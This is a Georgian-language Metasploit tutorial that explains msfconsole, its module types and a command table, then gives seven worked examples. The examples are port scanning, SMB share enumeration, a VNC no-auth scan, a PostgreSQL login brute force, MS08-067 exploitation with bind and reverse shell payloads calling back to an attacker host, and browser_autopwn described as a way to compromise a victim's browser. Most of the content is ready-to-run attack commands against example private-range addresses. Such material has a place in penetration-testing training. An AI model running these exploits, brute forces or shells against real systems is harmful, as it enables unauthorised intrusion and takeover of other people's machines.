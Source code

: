 # მარტივი ეტაპები Metasploit-ის გამოსაყენებლად

  - შეარჩიე ექსპლოიტი რომელსაც გამოიყენებ
  - დააკონფიგურე ექსპლოიტი მსხვერპლის IP მისამართის მითითებით და პორტის ნომერით
  - აირჩიე payload-ი
  - დააკონფიგურე payload-ი ლოკალური IP მისამართის მითითებით და პორტის ნომერით
  - შეამოწმე / გაუშვი ექსპლოიტი

# msfconsole

```
tutashxia@kali ~> msfconsole 
                                                  
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%     %%%         %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  %%  %%%%%%%%   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  %  %%%%%%%%   %%%%%%%%%%% https://metasploit.com %%%%%%%%%%%%%%%%%%%%%%%%
%%  %%  %%%%%%   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  %%%%%%%%%   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%  %%%  %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%    %%   %%%%%%%%%%%  %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%  %%%  %%%%%
%%%%  %%  %%  %      %%      %%    %%%%%      %    %%%%  %%   %%%%%%       %%
%%%%  %%  %%  %  %%% %%%%  %%%%  %%  %%%%  %%%%  %% %%  %% %%% %%  %%%  %%%%%
%%%%  %%%%%%  %%   %%%%%%   %%%%  %%%  %%%%  %%    %%  %%% %%% %%   %%  %%%%%
%%%%%%%%%%%% %%%%     %%%%%    %%  %%   %    %%  %%%%  %%%%   %%%   %%%     %
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%  %%%%%%% %%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%          %%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


       =[ metasploit v4.17.3-dev                          ]
+ -- --=[ 1795 exploits - 1019 auxiliary - 310 post       ]
+ -- --=[ 538 payloads - 41 encoders - 10 nops            ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

msf > 
```

ხედავთ რომ გვიჩვენებს 1795 exploits, 1019 auxiliary, 310 post, 538 payloads, 41 encoders, 10 nops.
  * exploits რათქმაუნდა ექსპლოიტებია
  * auxiliary წარმოადგენს სხვადასხვა დამატებით ხელსაწყოებს სკანირევისთვის
  * payloads არის მარგი ტვირთი რომელიც ექსპლოიტის მიერ გაიშვება
  * encoders გეხმარებათ ანტივირუსების, ფაირვოლების, IDS და IPS-ების გადალახვას მარგი ტვირთვის ენკოდირებით
  * nops (No Operation ან No Operation Performed) ეს არის ასემბლერის ინსტრუქცია რომელიც ხშირადაა გამოყენებული შელკოდებში.


არსებული მოდულების სანახავად:
```
msf > show -h
```

  * **show auxiliary**
  * **show exploits**
  * **show payloads**
  * **show encoders**
  * **shownops**
  * **show options**: გაჩვენებთ პარამეტრებს, მოდულის გამოსაყენებლად.
  * **show targets**: გაჩვენებთ მოდულის მიერ მხარდაჭერის ოპერაციულ სისტემებს.
  * **show advanced**: გაჩვენებთ დამატებით პარამეტრებს.

| ბრძანება                     | ახსნა 							|
| **check**                    | ამოწმებს ექსპლოიტის ფუნქციონირებას სამიზნის წინააღმდეგ ექსპლუატაციის გარეშე, რადგან დაადგინოს იგი გამოდგება თუ არა. ბევრ ექსპლოიტს ეს ფუნქცია არ გააჩნია. |
| **connectip** port           | netcat-ს და telnet-ის მსგავსია                      |
| **exploit**                  | შერჩეული ექსპლოიტის გაშვება                         |
| **run**                      | შერჩეული auxiliary-ის გაშვება                       |
| **jobs**                     | აჩვენებს უკანა პლანზე მომუშავე მოდულებს და გაძლევთ საშუალებას რომ ისინი გამორთოთ        |
| **route** add subnet netmasksessionid | გზის დამატება გატეხილი სისტემის გავლით, network pivoting |
| **info** module              | ინფორმაცია მოდულის შესახებ                           |
| **setparam** value           | მოდულის პარამეტრის გამოყენება                        |
| **setgparam** value          | პარამეტრის გამოყენება გლობალურად, ყოველივე მოდულისთვის       |
| **unsetparam**               | შლის მოდულის პარამეტრის მონაცემს                     |
| **unsetgparam**              | გლობალურად შლის პარამეტრის მონაცემს                  |
| **sessions**                 | სესიების მართვ: -l (listing, სია), -i ID (ინტერაქციისთვის), -k ID (kill, გამორთვა)|
| **search** string            | ძიება მოდულების სახელების სიაში და აღწერებში         |
| **use** module               | მოდულის ხმარება                                      |

## მაგალითი 1: პორტ სკანირება

```
tutashxia@kali ~> msfconsole 
msf > load db_tracker
msf > db_nmap -T Aggressive -sV -n -O -v 192.168.0.9
```

არმოჩენილი ღია პორტები სესიაშია შენახული რაც საშუალებას გაძლევთ რომ //db_hosts// და //db_services// ბრძანება გამოიყენოთ.

## მაგალითი 2: SMB-ს მომხმარებლები

```
tutashxia@kali ~> msfconsole 
msf > search SMB
msf > use auxiliary/scanner/smb/smb_enumershares
msf auxiliary(scanner/smb/smb_enumshares) > set RHOSTS 192.168.0.1/24
msf auxiliary(scanner/smb/smb_enumshares) > run
```

## მაგალითი 3: სკანერი VNC ცარიელი აუთინთერობით

```
tutashxia@kali ~> msfconsole 
msf > use auxiliary/scanner/vnc/vnc_none_auth
msf auxiliary(scanner/vnc/vnc_none_auth) > show options

Module options (auxiliary/scanner/vnc/vnc_none_auth):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target address range or CIDR identifier
   RPORT    5900             yes       The target port (TCP)
   THREADS  1                yes       The number of concurrent threads

msf auxiliary(scanner/vnc/vnc_none_auth) > set RHOSTS 10.4.124.0/24
RHOSTS => 10.4.124.0/24
msf auxiliary(scanner/vnc/vnc_none_auth) > run
```


## მაგალითი 4: PostgreSQL-ში აუთენთირება

```
tutashxia@kali ~> msfconsole
msf > use auxiliary/scanner/postgres/postgres_login
```

რომ გააგრძელოს ბრუტფორსი იმ შემთხვევაში თუ უკვე დაასკვნა მომხმარებელი და პაროლი.
```
msf auxiliary(postgres_login) > set STOP_ON_SUCCESS false
```

```
msf auxiliary(postgres_login) > set RHOSTS 192.168.0.9
msf auxiliary(postgres_login) > run
```

## მაგალითი 5: Bind shell

Bind shell-ი მარგი ტვირთვია რომელიც გატეხილ სისტემაში უშვებს შელს და შენთვსი ხელმისაწვდომად აქცევს მას ქსელური კავშირის დამყარებით. იგი აგრეთვე გამოიყენება იმ შემთხვევაში თუ ჰაკერი Network Address Translation (NAT) ან ფაორვოლის უკანაა და პირდამირი კავშირი ჰაკერთან და გატეხილ სისტემასთან ვერ დგება.

```
tutashxia@kali ~> msfconsole
msf > use exploit/windows/smb/ms08_067_netapi
msf exploit(ms08_067_netapi) > show options
msf exploit(ms08_067_netapi) > set RHOST 192.168.0.7
RHOST => 192.168.0.7
msf exploit(ms08_067_netapi) > set PAYLOAD windows/shell/bind_tcp
PAYLOAD => windows/shell/bind_tcp
msf exploit(ms08_067_netapi) > exploit
```

## მაგალითი 6: Reverse shell

Reverse shell-ი bind shell-ის პირიქითაა. იმის მაგივრად რომ გატეხილ სისტემაში გახსნას პორტი და კავშირის დამყარებას ელოდოს ჰაკერისგან იგი პირდაპირ ჰაკერის სისტემას უკავშირება აიპი და პორტის მეშვეობით, და უშვებს შელს. ესეთი სცენარი საინტერესოა თუ მსხვერპლი NAT ან firewall უკანაა და სხების მიერ დაკავშირებას კრძალავს.

```
tutashxia@kali ~> msfconsole
msf> use exploit/windows/smb/ms08_067_netapi
msf exploit(ms08_067_netapi) > set RHOST 192.168.0.7
RHOST => 192.168.0.7
msf exploit(ms08_067_netapi) > set PAYLOAD windows/shell/reverse_tcp
PAYLOAD => windows/shell/reverse_tcp
msf exploit(ms08_067_netapi) > show options
msf exploit(ms08_067_netapi) > set LHOST 192.168.0.3
LHOST => 192.168.0.3
msf exploit(ms08_067_netapi) > exploit
```

Reverse shell-ის შემთვევაში ჰაკერის აიპის მითითება საჭიროა (LHOST), bind shell-ის განსხვავებით.


## მაგალითი 7: ბრაუზერის ავტომატური ექსპლუატაცია

ეს უფრო მიზანმიმართულია სოციალური ინჟინერიის პროცესისთვის, ანუ პიროვნების ბრაუზერის გასატეხად.

```
tutashxia@kali ~> msfconsole
msf > use auxiliary/server/browser_autopwn
msf auxiliary(server/browser_autopwn) > set LHOST 127.0.0.1
LHOST => 127.0.0.1
msf auxiliary(server/browser_autopwn) > set SRVPORT 80
SRVPORT => 80
msf auxiliary(server/browser_autopwn) > set SRVHOST 127.0.0.1
SRVHOST => 127.0.0.1
msf auxiliary(server/browser_autopwn) > set URIPATH /
URIPATH => /
msf auxiliary(server/browser_autopwn) > run
```

როცა მსხვერპლი საიტზე შემოვა, მისი ბრაუზერი დაფიქსირდება და ექსპლუატაციის პროცესი განხორციელდება.

ნახეთ სესიების სია, და ნახავთ გატეხილ ბრაუზერს, შემდეგ ბრაზერთან ინტერაქციისთვის შეარჩიეთ სესუა, თუ იგი პირველია მაშინ sessions -i 1.
```
msf auxiliary(server/browser_autopwn) > sessions
```
